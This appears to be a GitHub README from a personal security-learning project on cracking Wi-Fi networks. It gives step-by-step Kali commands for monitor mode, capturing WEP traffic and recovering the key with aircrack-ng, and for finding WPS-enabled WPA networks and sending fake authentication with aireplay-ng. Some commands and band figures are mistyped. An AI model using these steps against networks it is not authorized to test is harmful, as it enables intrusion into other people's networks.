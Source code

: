 # Network Hacking (wifi)

## Objective
Network Hacking and gaining access to Wifi networks and cracking them.

### Skills Learned

- Sniffing on 5Gz and 2.5Gz wireless networks
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng

## Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

The mode will be Monitor now

- Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

- Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

- Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
- Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
- Copy the key and remove the : and that would be the wifi password.

## Steps for WPA/WPA2

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```


￼
